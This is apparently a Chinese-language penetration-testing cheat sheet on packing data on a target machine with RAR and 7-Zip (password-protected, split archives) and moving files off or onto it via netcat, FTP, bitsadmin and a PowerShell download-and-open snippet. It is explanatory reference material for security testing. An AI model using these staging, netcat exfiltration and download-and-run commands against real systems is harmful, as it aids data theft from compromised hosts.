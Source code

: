 # 压缩数据

**将文件打包，缩小文件体积，方便下载**

## RAR

如果目标机器安装了WinRAR，可以直接使用，如果没有直接上传`rar.exe`

```sh
-a: 添加压缩文件
-k: 锁定压缩文件
-s: 生成存档文件（可以提高压缩比）
-p: 指定压缩密码
-r: 递归压缩，包括子目录
-x: 指定要排除的文件
-v: 分卷打包，在打包大文件时用处很大
-ep: 从名称中排除路径
-ep1：从名称中排除基本路径
-m0：存储，添加到压缩文件时不压缩文件
-m1：最快，压缩比低
-m2：较快，使用快速压缩方式
-m3：标准，使用标注压缩方式（默认）
-m4：较好，使用较强的压缩方式（速度较慢）
-m5：最好，使用最强的压缩方式，但是最毒最慢
```

### RAR格式压缩

- 把`E:\webs\`目录下的全部文件打包为：`1.rar`,放到`E\webs\`目录下
- `rar.exe a -k -r -s -m3 E:\webs\1.rar E:\webs`

### RAR格式解压

- 解压到当前目录
- `rar.exe e E:\webs\1.rar`

### 分卷压缩

- 分卷压缩`E:\API`文件，递归压缩，每个分卷大小为20M

- `rar.exe a -m0 -r -v20m E:\test.rar E:\API`

### 分卷解压

- `rar.exe x E:\test.part01.exe E:\x1`

## 7-Zip

如果目标机器安装了7-Zip，可以直接使用，如果没有直接上传`7z.exe`

```sh
-r 递归压缩
-o 指定输出目录
-p 指定密码
-v 分卷压缩
-a 添加压缩文件
```

### 普通压缩

- `7z.exe a -r -p123456 E:\webs\1.7z E:\webs\`

### 普通解压

- `7z.exe x -p123456 E:\webs\1.7z -oE:\x`

### 分卷压缩

- `7z.exe -r -v10m -padmin a E:\test.7z E:\API`

### 分卷解压

- `7x.exe x -padmin E:\test.7z -oE:\x`

# 上传和下载

## NetCat

- `nc -lvvp 2233 >1.txt`  监听本地2233，当有数据 输入到 1.txt
- `nc -vn <目标IP> <目标端口> <2.txt`  把2.txt文件内容传输到目标的指定端口

## 利用FTP协议上传

```sh
open <服务器地址> #连接远程服务器
cd <目录名>  #进入指定目录
lcd <文件夹路径>  #定位本地文件夹，这也是上传和下载文件的位置
type  # 查看点给钱的传输方式
ascii 设置传输方式为ASCII传输，主要用来传输TXT等
binary 设置传输方式为二进制传输，主要用来传输TXT等
close 结束与服务器的FTP会话
quit 结束与服务器的FTP会话并退出FTP环境
put <文件名><newname> 上传
send <文件名><newname> 上传
get <文件名><newname> 下载
mget filename……  同时下载多个文件
```

## 利用bitsadmin下载

- `bitsadmin`是一个命令行工具，WindowsXP以后的版本的Windows操作系统自带该工具。Windows update就是利用它进行文件下载的

- 如果渗透测试的目标主机使用了网站代理，并且需要活跃目录证书，那么bitsadmin可以帮助解决下载文件的问题

- bitsadmin不支持HTTPS和FTP协议，也不支持`Windows XP/Server 2003`及以前的版本

## 利用PowerShell下载

```powershell
$link = ''
$outfile = "$env:temp\languageref.docx"
Invoke-WebRequest -Uri $link -OutFile $outfile
Invoke-Item -Path $outfile
```



























